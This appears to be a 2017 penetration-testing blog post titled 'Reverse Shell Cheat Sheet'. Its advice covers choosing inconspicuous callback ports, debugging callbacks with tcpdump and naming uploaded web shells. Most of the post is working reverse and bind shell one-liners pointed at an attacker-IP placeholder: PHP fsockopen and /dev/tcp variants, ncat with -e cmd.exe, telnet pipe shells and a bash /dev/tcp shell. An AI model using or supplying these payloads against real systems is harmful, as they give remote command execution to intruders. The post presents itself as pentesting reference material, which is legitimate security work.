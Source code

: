 ```yaml
---
layout: post
title:  "Reverse Shell Cheat Sheet"
date:   2017-01-17 20:56:00 -0600
categories: lab homelab pentest cheatsheet
---
```


## Cause everyone posts one

If enumeration is the bread and butter of penetration testing, reverse shells are the cheesecake. Stolen usernames and passwords may be one of the most reliable ways to get into a system, but theres nothing like messing something up a bunch and then finally seeing that reverse shell prompt pop up. These are some quick and easy ones in different formats.

## First, some thoughts

Reverse shells are great, but you need to make sure they get to you. Way too many reverse shells and exploits code the exploit to send reverse shells back to port 4444. If you see this port active in a production environment and can't immediately recognize why, you need to figure it out. You may have been popped by someone who barely knows what they're doing which probably also means someone way worse is already in. 

If you're going to send yourself back a reverse shell, try ports that people should expect to see. Port 80 and 443 are great, but so is DNS. [This](http://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html) is an excellent write up of RCE found in Facebook that had to use outbound DNS to send results back to his listening machine. Amazing stuff. 

If you think it should work and it's not, tcpdump or wireshark your host (if you can) and see what's coming and going. If I'm trying to exploit a web app on port 80 to send back a remote shell, one tcpdump quickie I use is 

~~~
tcpdump -qtpni eth0/tap0/whatever0 host <VICTIMIP> and not port 80 
~~~

That watches traffic for anything coming back and gives you a condensed, simple output for it only on the interface you expect the attack to copme back through (tap0 if you're on a VPN, for example), listening only for the victim host so you don't see a bunch of other noise and excluding the port you know you're going to see traffic on. In this case, since I'm attacking port 80, I'm probably listening on port 443 with a netcat listener. You could specify port 443 only, but this wouldn't catch if you did something wrong in your exploit and are sending the exploit back to the wrong port (we all make mistakes). 


### But bind shells are easier!

And therein lies the problem. Bind shells are great, but they're irresponsible. If you can bind to the port, anyone else can. If you're part of a real engagement for a customer or doing something in house, you can't leave bind shells everywhere, it's like leaving windows open for burglars. If someone is already inside the client's network,  you've just made their job that much easier when your goal is the opposite. Use reverse shells, encrypt when possible, and clean up after yourself. Relatedly, if you're uploading a file to an externally available site like a web shell, don't name it admin.php or shell.php. Use a complex naming schema that can't be brute forced or ideally a tag that can be found repeatedly. Something like remotephone_j1er234.php is harder to brute force and way easier to track down for cleanup.  


## Let's begin!

Don't be lazy. You shouldn't be trying to get a shell back unless you have a good idea of what the underlying OS is. Each one of these can be adjusted and may need to be. It's possible you know you have a linux type OS, but what if bash is in /usr/bin/ instead of /bin/? Do some recon, know what you're working with, and, if you really have every reason to believe you should be getting a shell but you aren't, always assume you've done something wrong. It's usually the safe bet.  

### PHP

This is a very generic PHP reverse shell. It runs PHP inside of itself to send a connection back with /bin/sh

~~~
'<?php  echo shell_exec(php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3"); ?>'
~~~

Here are a lot of variations on a theme. Each one worked for something different (some didn't work at all, but might for you), and others are just interesting.

~~~
'<?php -r fsockopen("<ATTACKIP>",443); exec("/bin/sh -i <&3 >&3 2>&3"); ?>'
'<?php $s=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&4 >&4 2>&4");?>'
'<?php exec("/bin/sh | /bin/nc <ATTACKIP> 443");?>'
'<?php $sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&3 >&3 2>&3");?>'
'<?php set_time_limit (20);$sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&3 >&3 2>&3");?>'
'<?php $sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i >& /dev/tcp/<ATTACKIP>/443 0>&1");?>'
'<?php shell_exec("/bin/sh -i >& /dev/tcp/<ATTACKIP>/443 0>&1");?>'
~~~

No matter what's different with each one, every single one is calling a command shell, sending it over a network connection to the port you want. Every example is using port 443, so adjust that as you need to adjust it. Also, note that it's suspicious to send non-HTTPS traffic over 443, so keep that in mind if you're dealing with deep packet inspection or an attentive analyst. It might be more useful to use meterpreter reverse_https for something like that.

### Ncat and nc

Ncat and nc are great tools. You can do a ton with each one, but ncat is just a whole other level for what it allows you to accomplish. While nc is the traditional tool, ncat comes from the same people who produce nmap and includes tons more features including ssl support and the ability to restrict access! 

Of course, you'll have to work these into your exploit. To create a bind shell that only allows a specific IP to connect to it, use

~~~
ncat -lvp 4445 -e cmd.exe --allow <ATTACKIP> --ssl
~~~

To do this even more safely, use a reverse shell 

~~~
ncat -v <attackIP> 443 -e cmd.exe --ssl
~~~


### Non-netcat Shells

This one is really clunky, but it works when you just can't get anything else working. For this to work, you need two listeners and your shell will show up on the second one. It's a complete mess, but it works and it's just kind of nifty to see.

~~~
telnet <ATTACKIP> 443 | /bin/sh | telnet <ATTACKIP> 444
~~~

This one came from [this](https://twitter.com/webpentest/status/424165659518316544) tweet and it's interesting. 

~~~
/bin/bash -l > /dev/tcp/<ATTACKIP>/<ATTACKPORT> 0<&1 2>&1
~~~

Another interesting telnet shell

~~~
rm -f /tmp/p; mknod /tmp/p p && telnet <ATTACKIP> <ATTACKPORT> 0/tmp/p
~~~




#### Sources

"If I've seen so far, it's because I've stolen the shoulders of giants" or something. 

These are some great resources for some of the shells I've included above. Learn from others, modify it, and share!


[The one](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) everyone seems to link 

[Variations](https://highon.coffee/blog/reverse-shell-cheat-sheet/) on the theme.

[Oldy](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html) but goody
